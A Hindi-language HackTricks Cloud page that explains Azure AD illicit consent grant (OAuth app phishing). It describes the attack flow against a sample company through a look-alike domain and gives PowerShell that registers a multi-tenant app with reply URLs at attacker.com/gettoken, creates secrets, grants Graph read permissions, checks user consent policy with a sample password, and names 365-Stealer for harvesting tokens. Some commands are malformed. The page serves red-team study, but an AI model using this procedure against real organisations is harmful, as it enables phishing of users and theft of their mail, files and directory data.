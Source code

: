 # Az - अनैतिक सहमति अनुदान

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके।

</details>

## OAuth ऐप फिशिंग

**Azure ऐप्लिकेशन** उपयोगकर्ता डेटा (मूल जानकारी, लेकिन दस्तावेज़ों तक पहुंच, ईमेल भेजने आदि) तक पहुंच के लिए अनुमतियाँ मांगते हैं।\
यदि **अनुमति दी जाती है**, तो एक साधारण उपयोगकर्ता केवल **"कम प्रभाव" अनुमतियों** के लिए सहमति दे सकता है। **अन्य सभी** मामलों में, **व्यवस्थापक सहमति आवश्यक होती है**।\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और `ऐप्लिकेशन को अनुमति देने की अनुमति` शामिल करने वाली एक अनुकूल भूमिका टेनेंट-व्यापी सहमति प्रदान कर सकती हैं।

केवल वे अनुमतियाँ जो **व्यवस्थापक सहमति आवश्यक नहीं होती हैं**, को **कम प्रभाव** के रूप में वर्गीकृत किया जाता हैं। ये अनुमतियाँ मूल साइन-इन के लिए आवश्यक होती हैं जैसे openid, profile, email, User.Read और offline\_access। यदि **संगठन** उपयोगकर्ता सहमति को **सभी ऐप्स के लिए अनुमति देता है**, तो कर्मचारी अपनी प्रोफ़ाइल से ऐप्लिकेशन को ऊपर दिए गए जानकारी को **पढ़ने के लिए अनुमति दे सकता हैं**।

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

इसलिए, एक हमलावर एक **कुटिल ऐप** तैयार कर सकता हैं और फिशिंग के साथ, उपयोगकर्ता को **ऐप स्वीकार करने और उसके डेटा को चुरा सकता हैं**।

### जांचें कि क्या उपयोगकर्ताओं को सहमति दी जा सकती हैं

जांचें कि क्या उपयोगकर्ताएं ऐप्स के लिए सहमति दे सकती हैं:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **उपयोगकर्ता सहमति अक्षम करें** : उपयोगकर्ताओं को अनुमतियाँ देने के लिए अनुप्रयोगों को अनुमति नहीं दी जा सकती है।
* **उपयोगकर्ता सत्यापित प्रकाशक या आपके संगठन से अनुमति दे सकते हैं, लेकिन केवल आपके द्वारा चयनित अनुमतियों के लिए** : सभी उपयोगकर्ता केवल उन अनुमतियों के लिए अनुमति दे सकते हैं जो एक सत्यापित प्रकाशक द्वारा प्रकाशित किए गए हैं और आपके टेनेंट में पंजीकृत अनुप्रयोग हैं।
* **उपयोगकर्ता सभी अनुप्रयोगों को स्वीकृति दे सकते हैं** : सभी उपयोगकर्ता किसी भी अनुमति को स्वीकार करने के लिए अनुमति दे सकते हैं जो प्रशासक स्वीकृति की आवश्यकता नहीं होती है,
* **कस्टम अनुप्रयोग सहमति नीति**

## **अवैध सहमति अनुमति हमला क्या है?**

अवैध सहमति अनुमति हमले में, हमलावर एक **एज़्यूर-पंजीकृत अनुप्रयोग बनाता है जो संपर्क जानकारी, ईमेल या दस्तावेज़ जैसे डेटा तक पहुंच का अनुरोध करता है**। फिर हमलावर एक अंत उपयोगकर्ता को धोखा देकर अनुप्रयोग को सहमति देने के लिए मजबूर करता है ताकि हमलावर उस डेटा तक पहुंच प्राप्त कर सके जिसकी पहुंच उद्देश्य उपयोगकर्ता को है। जब अनुप्रयोग को सहमति दी जाती है, तो उसे संगठनात्मक खाते की आवश्यकता के बिना उपयोगकर्ता खाते के स्तर पर डेटा तक पहुंच होती है।

सरल शब्दों में कहें तो जब पीड़ित उस सुंदर नीले बटन पर क्लिक करता है "स्वीकार करें", तो एज़्यूर एडी तीसरे पक्ष साइट को टोकन भेजता है जो हमलावर के पास होता है जहां हमलावर उस टोकन का उपयोग करके पीड़ित के नाम पर कार्रवाई कर सकता है जैसे कि फ़ाइलें एक्सेस करना, मेल पढ़ना, मेल भेजना आदि।

## **हमला फ्लो**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

इस हमले को कंपनी "ईकॉर्प" के खिलाफ करने के लिए हमलावर ने "सेफडोमेनलॉगिन.कॉम" नामक डोमेन पंजीकृत किया और एक सबडोमेन ["ईकॉर्प.सेफडोमेनलॉगिन.कॉम"](http://ecorp.safedomainlogin.com/) बनाया जहां वे **अधिकृती को पकड़ने के लिए अनुप्रयोग होस्ट करते हैं** और फिर एक्सेस टोकन के लिए अनुरोध करते हैं।

फिर, अपने एज़्यूर एडी टेनेंट में एक मल्टी टेनेंट अनुप्रयोग पंजीकृत करें और उसे "ईकॉर्प" नामक रखें और रीडायरेक्ट यूआरएल को "ईकॉर्प.सेफडोमेनलॉगिन.कॉम" की ओर पहुंचने वाला रीडायरेक्ट यूआरएल जो अनुप्रयोग को पकड़ने वाले अनुप्रयोग को होस्ट करता है, जो अधिकृती को पकड़ने के लिए होस्ट करता है।

हमलावर ने एक नया क्लाइंट सीक्रेट बनाया और अनुप्रयोग में `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` जैसी कुछ API **अनुमतियाँ** जोड़ीं। ताकि जब **उपयोगकर्ता अनुप्रयोग को सहमति देता है**, हमलावर उपयोगकर्ता के नाम पर **संवेदनशील जानकारी** को **निकाल** सके।

हमलावर अंत में एक **लिंक** बनाता है जिसमें ख़राब अनुप्रयोग का क्लाइंट आईडी होता है और उसे **लक्षित उपयोगकर्ताओं** के साथ **साझा** करता है ताकि वह उनकी सहमति प्राप्त कर सके।

## 365-Stealer

आप [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer) के साथ इस हमले को कर सकते हैं।

अतिरिक्त कदम के रूप में, यदि आपके पास पीड़ित संगठन में किसी उपयोगकर्ता पर कुछ **पहुंच है**, तो आप जांच सकते हैं कि नीति उसे **अनुप्रयोगों को स्वीकार करने की अनुमति देगी** या नहीं:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
इस हमले के लिए आपको अपने Azure Tenant में एक **नया ऐप बनाने** की आवश्यकता होगी (App registrations में) जिसमें निम्नलिखित अनुमतियाँ हो सकती हैं:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` `Microsoft Graph` में `Delegated permissions` में है। (अनुप्रयोग अनुमतियों के लिए हमेशा अतिरिक्त मंजूरी की आवश्यकता होगी)।

* `User.ReadBasic.All` अनुमति आपको संगठन में सभी उपयोगकर्ताओं की जानकारी पढ़ने की अनुमति देगी अगर मंजूरी मिल जाए।
* ध्यान दें कि केवल `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और `अनुप्रयोगों को अनुमतियाँ प्रदान करने की अनुमति` शामिल करने वाली एक कस्टम भूमिका टेनेंट-व्यापी सहमति प्रदान कर सकती हैं। इसलिए, आपको चाहिए कि आप एक ऐसे उपयोगकर्ता को **फिशिंग करें जिसमें उनमें से कोई भूमिका हो** जिसे एक **ऐप को व्यवस्थापक सहमति की आवश्यकता हो**।

आप CLI के माध्यम से भी एक ऐप बना सकते हैं:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

इसे कॉन्फ़िगर करने के लिए कृपया [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) देखें।

{% hint style="warning" %}
ध्यान दें कि प्राप्त किया गया **एक्सेस टोकन** ग्राफ एंडपॉइंट के लिए होगा जिसमें स्कोप्स होंगे: `User.Read` और `User.ReadBasic.All` (अनुरोधित अनुमतियाँ)। आप अन्य कार्रवाई करने में सक्षम नहीं होंगे (लेकिन इन्हें पर्याप्त माना जाता है क्योंकि इससे आप संगठन में सभी उपयोगकर्ताओं के बारे में जानकारी डाउनलोड कर सकते हैं)।
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

आप इस टूल का उपयोग भी इस हमले को करने के लिए कर सकते हैं।

## पोस्ट-एक्सप्लोइटेशन

एक बार जब आप उपयोगकर्ता तक पहुंच जाते हैं, तो आप संवेदनशील दस्तावेज़ चुरा सकते हैं और यहां तक कि बैकडोर्ड दस्तावेज़ फ़ाइलें अपलोड कर सकते हैं।

## संदर्भ

* यह पोस्ट [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) से कॉपी की गई है

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [डिस्कॉर्ड समूह](https://discord.gg/hRep4RUj7f) या [टेलीग्राम समूह](https://t.me/peass) में शामिल हों** या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** अनुसरण करें।
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
